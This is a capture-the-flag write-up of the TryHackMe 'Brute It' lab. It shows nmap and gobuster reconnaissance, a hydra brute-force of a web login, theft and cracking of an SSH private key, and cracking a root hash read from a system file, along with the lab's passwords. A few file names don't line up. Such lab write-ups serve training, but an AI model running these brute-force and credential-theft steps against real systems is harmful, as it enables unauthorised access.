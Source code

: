 ```yaml
---
title: TryHackMe - Brute It
author: Bonface
date: 2024-01-31 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - brute
  - ssh
  - http
  - gobuster
  - john
  - crack
  - SUID
image:
  path: /assets/img/try%20hack%20me%20/Easy/Brute_It/0.png
  alt: Brute_It
---
```


# Brute It

Learn how to brute, hash cracking and escalate privileges in this box!
- Brute-force
- Hash cracking
- Privilege escalation

# nmap

## ip = `10.10.40.7`

```sh
 nmap -sV -sC -A -v 10.10.40.7
 ```
 
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| 256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_ 256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## To Do list
- visit he site
- surf around
- View the source code
- visit robots.txt
- run gobuster


## The site
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/1.png)

## gobuster
```sh
 gobuster dir -u http://10.10.40.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

`/admin`  
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/2.png)

## /admin/source code
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/3.png)

Details Acquired
-------------------
user = john  
username = admin  
password = ???  

# Brute force

Here we can brute force the login page using the details gotten.  
we use hydra.  

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.40.7 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"
```
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/4.png)

now we have:  
username = `admin`  
password = `xavier`  

We login!  
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/5.png)
Let's download the rsa key

```sh
 wget http://10.10.40.7/admin/panel/id_rsa
```
brute force using john
```sh
ssh2john id_rsa > forjohn
john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt
```
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/6.png)

Details Acquired
-----------------------------------------------------
user = `john`  
`id_rsa`  
password = `rockinroll`  

Let's jump to ssh port 22  

```sh
 ssh -i id_rsa john@10.10.40.7
#passphrase = rockinroll
```

![](/assets/img/try%20hack%20me%20/Easy/Brute_It/7.png)


# privilege escalation

## sudo -l
![](/assets/img/try%20hack%20me%20/Easy/Brute_It/8.png)

We get that we can read the `/etc/passwd` file where we can get the root hash,crack it and get the root password.  
Decrypt the hash using sir john
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt roothash.txt
```
